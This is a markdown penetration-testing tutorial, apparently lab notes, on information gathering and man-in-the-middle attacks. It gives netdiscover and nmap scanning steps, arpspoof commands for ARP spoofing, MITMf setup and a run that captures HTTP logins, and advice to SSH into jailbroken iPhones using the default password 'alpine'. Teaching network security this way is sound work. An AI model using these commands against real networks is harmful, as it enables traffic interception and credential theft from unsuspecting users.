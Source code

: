 # Information Gathering

## Content
1. [Discovering Connected devices](#discovering-connected-devices)
2. [Network Mapping (NMAP/ ZENMAP)](#network-mapping)
3. [Man In The Middle](#man-in-the-middle)
	1. [ARP Poisoning](#arp-poisoning)
	2. [ARP Spoofing](#arp-spoofing)
		1. [Installing MITMF](#installing-mitmf)


### Discovering Connected devices

In this we would search for the devices that are connected to the same network. This would help in attacking those devices. So this would be more fruitful, once access has been gained to the desired network.

```shell
root@kali:~/Desktop/information-gathering# netdiscover -r 10.0.2.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                    
                                                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.3        08:00:27:85:e0:96      1      60  PCS Systemtechnik GmbH                                                                         
 10.0.2.4        08:00:27:04:18:04      1      60  PCS Systemtechnik GmbH                                                                         
```
where `-r 10.0.2.1/24` signifies the range of IPs that I'm looking for in the subnet. 

> Please note that you can search for devices in the subnet that you're present.


### Network Mapping
Slower than `netdiscover` but gives a lot more information - like OS, applications running, open ports, connected clients etc. 

To perform network mapping you can run `zenmap` which is a graphical user interface for nmap. This allows for much more detailed summary of the devices connected to the network. Nmap is very vast subject in itself. You can refer [this PDF](http://wiki.informationsecurity.club/lib/exe/fetch.php/книги:nmap_network_scanning.pdf) for more information.

For example, if I do a `Quick Scan Plus` i'll be able to see the ports that are opne on the devices that are connectedo to the same network. Then For example, you see that iphone is connected to the network, and the `SSH` port is open that would translate to the iphone being jailbroken. In such a situation, you can SSH into the iphone, with `ssh root@ip.address` with the password being `alpine`. Also, if you see that there are several PCs or computers with SSH port open, you can try to ssh into them, and if you know the password or if the password is not set, then voila. You're in!

### Man In The Middle

In cryptography and computer security, a man-in-the-middle attack (MITM) is an attack where the attacker secretly relays and possibly alters the communication between two parties who believe they are directly communicating with each other. One example of a MITM is active eavesdropping, in which the attacker makes independent connections with the victims and relays messages between them to make them believe they are talking directly to each other over a private connection, when in fact the entire conversation is controlled by the attacker

#### Arp poisoning

Address Resolution Protocol (ARP). Maps the IP address to the MAC address. So in this case, the `Malcious Machine` would simply exploit the ARP protocol to tell the router that "I am the `USER A`" and to USER A, it would tell that "I am the `ROUTER`". 

![ARP Poisoning Example](./Resources/01-arp-poisoning-example.png)

Hence, the requests from the `USER A` would be passed to the `Malcious Machine` which would forward the requests to the `Router`. Any responses from the `Router` would be sent to the `Malcious Machine`, which would subsequently send these responses to `User A`.

* ARP is not secure because
	* clients `accept responses` even when no requests are sent, 
	* moreover clients trust without any form of `verification`

#### Arp Spoofing

So to perform this we would execute the following two commands.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.4 10.0.2.1
```
This command would tell the target machine that I'm the router.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.a 10.0.2.4
```
This command would tell the router that I'm the target machine.

If you have access to the target machine, while experimenting, you can run the `arp -a` command before and after execution of the previous command to see the changes in the mac addresses yourself.

![Before and After](./Resources/02-Before-after.png)

##### Installing MITMF

**Installation** MITMf relies on a **LOT** of external libraries therefore it is highly recommended you use [virtualenvs](http://docs.python-guide.org/en/latest/dev/virtualenvs/) to install the framework, this avoids permission issues and conflicts with your system site packages (especially on Kali Linux).

Before starting the installation process:

*   On Arch Linux:

    `pacman -S python2-setuptools libnetfilter_queue libpcap libjpeg-turbo capstone`
    

*   On Debian and derivatives (e.g Ubuntu, Kali Linux etc...)

    ```
    apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
    ```
   

*   Install virtualenvwrapper:

    `pip install virtualenvwrapper`
    

*   Edit your `.bashrc` or `.zshrc` file to source the virtualenvwrapper.sh script: (This is for Kali Linux)

    `source /usr/local/bin/virtualenvwrapper.sh`
    

**The location of this script may vary depending on your Linux distro**

You can find yours by running `find / -name virtualenvwrapper.sh`

*   Restart your terminal or run:

    `source /usr/local/bin/virtualenvwrapper.sh`
    

*   Create your virtualenv:

    `mkvirtualenv MITMf -p /usr/bin/python2.7`
    

*   Clone the MITMf repository:

    `git clone https://github.com/byt3bl33d3r/MITMf`
    

*   cd into the directory, initialize and clone the repos submodules:

    `cd MITMf && git submodule init && git submodule update --recursive`
    

*   Install the dependencies:

    `pip install -r requirements.txt`
    

*   You're ready to rock!

    `python mitmf.py --help`
    
    Then you can start the capturing of data using
    
    ```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0
    ```

![Running MITMF](./Resources/03-Running-mitmf.png)

And while visiting `HTTP` sites you can capture the content of the user name and password like this. 

![Capturing Username and Password](./Resources/04-username-password.png)

> Note that this method would work only with `HTTP` sites. In the next section we will learn about how to bypass `HTTPS` traffic

